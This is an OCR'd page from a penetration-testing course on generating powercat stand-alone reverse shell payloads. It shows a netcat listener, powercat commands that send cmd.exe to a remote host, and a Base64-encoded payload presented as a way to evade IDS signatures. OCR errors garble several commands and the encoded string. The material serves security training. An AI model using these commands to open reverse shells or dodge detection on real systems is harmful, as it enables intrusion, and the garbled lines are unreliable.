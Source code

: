 #### Powercat Stand-Alone Payloads



```
kali @kali:-$ sudo nc -lnvp 443
listening on [any] 443 ...
```



Powercat can also generate stand-alone payloads. In the context of powercat, a payload is a set
of powershell instructions as well as the portion of the powercat script itself that only includes the
features requested by the user. Let's experiment with payloads in this next example.

After starting a listener on Alice's machine, we create a stand-alone reverse shell payload by adding
the -g option to the previous powercat command and redirecting the output to a file. This will
produce a powershell script that Bob can execute on his machine:

```
PS C:\powercat> powercat -c 192.168.0.223 -p 443 -e cmd.exe -g > reverseshell.ps1

PS C:\powercat> .\reverseshell.ps1
```

It's worth noting that stand-alone payloads li ke this one might be easily detected by IDS.
Specifically, the script that is generated is rather large with roughly 300 lines of code. Moreover, it
also contains a number of ha rdcoded strings that can easily be used in signatures for malicious
activity. While the identification of any specific signature is outside of scope of this module, it is
sufficient to say that plaintext malicious code such as this will likely have a poor success rate and
will likely be caught by defensive software solutions.

We can attempt to overcome this problem by making use of PowerShell's ability to execute Base64
encoded commands. To generate a stand-alone encoded payload, we use the -ge option and once
again redirect the output to a file:

```
PS C:\Users\offsec> powercat -c 10.11.0,4 -p 443 -e cmd.exe -ge > encodedreverseshett.
psl
```

The file w ill contain an encoded string that can be executed using the PowerShell -E
(EncodedCommand) option. However, since the -E option was designed as a way to submit
complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be
executed in t he same way as our unencoded payload. Instead, Bob needs to pass the whole
encoded string to powershetl.exe -E:

- Open the encodedreverseshett.psl in notepad 
- Copy, paste and run the content

```
PS C: \Users\offsec> powershell.exe -E ZgB1AG4AVw88AGkAbwBuACAAUwB8AHIAZQBhAG8AMQBfAFM
AZQB8AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAVQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA
CkACgAgACAAIAAgACQAVwAsACQAbAAsACQAcAAsACQAdAAgAD8AIAAkAEVAdQBuAGMAUwBtAHQAdQBwAFVAVQB
yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAGSAVgBhAGwAOgBWAGUAcgBiAGSAcwBtACkAewAkAFVAZQByAGIAb
wBzAGUAIAA9ACAAJABUAHIAdQBtAH8ACgAgACAAIAAgACQARgB1AG4AVwBWAGEAcgBzACAAPQAgAEAAewB9AAo
AIAAgACAAIABpAGVAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFVAVQByA
HMAWWAiAGwAigBdACAAPQAgACQARgBhAGwAcwBtAAoAIAAgACAAIAAgACAAJABTAG8AVwBrAGUAdAAgAD8AIAB
OAGUAdwAtAE8AVgBqAGUAVwB8ACAAUwBSAHMAdABtAG8ALgBOAGUAdAAuAFMAbwBjAGsAZQB8AHMALgBUAGMAc
ABDAGwAaQBtAG4AdAAKACAAIAAgACA
```
